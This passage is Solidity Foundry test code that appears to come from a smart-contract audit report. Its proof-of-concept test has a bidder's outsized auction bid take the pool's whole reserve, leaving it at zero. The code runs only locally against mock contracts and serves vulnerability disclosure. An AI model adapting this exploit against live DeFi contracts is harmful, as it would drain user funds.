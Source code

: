 ```solidity

    // Use vm.etch to deploy the mock contract at the specific address
    bytes memory bytecode = address(mockPriceFeed).code;
    vm.etch(ethPriceFeed, bytecode);

    // Set oracle price
    mockPriceFeed = MockPriceFeed(ethPriceFeed);
    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    poolFactory.grantRole(poolFactory.GOV_ROLE(), governance);
    poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);
    poolFactory.grantRole(poolFactory.SECURITY_COUNCIL_ROLE(), securityCouncil);
    
    Token(reserve).mint(governance, 1000 ether);
    Token(reserve).approve(address(poolFactory), 1000 ether);
    
    return poolFactory.createPool(params, 100 ether, 500 ether, 250 ether, "Bond ETH", "bondETH", "Leverage ETH", "levETH", false);
  }

   function useMockPool(address poolAddress) public {
    // Deploy the mock pool
    MockPool mockPool = new MockPool();

    // Use vm.etch to deploy the mock contract at the specific address
    vm.etch(poolAddress, address(mockPool).code);
  }



    function testPoc() public {
 
   Token rToken = Token(weth);
    // User creates bond tokens
    vm.startPrank(user);
    
    rToken.mint(user, 200 ether);
    rToken.approve(address(pool), 200 ether);
    uint256 bondAmount = pool.create(Pool.TokenType.BOND, 10 ether, 0);
    console.log("bondAmount",bondAmount);//300,000000000000000000
    console.log("rToken.balanceOf after create",rToken.balanceOf(address(pool)));//110000000000000000000
  vm.stopPrank();

/////////////////////////////////////////////////////////
//auction
    vm.startPrank(bidder);
    usdc.mint(bidder, 1000000000000 ether);
    usdc.approve(address(auction), 1000000000000 ether);
    auction.bid(110 ether, 1000000000000);//totalSellReserveAmount: 110000000000000000000
    vm.stopPrank();
    vm.warp(block.timestamp + 15 days);
   

    vm.startPrank(address(pool));
    auction.endAuction();
    console.log("rToken.balanceOf end action",rToken.balanceOf(address(pool)));//0
    assertEq(uint256(auction.state()), uint256(Auction.State.SUCCEEDED));
    vm.stopPrank();

    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));
```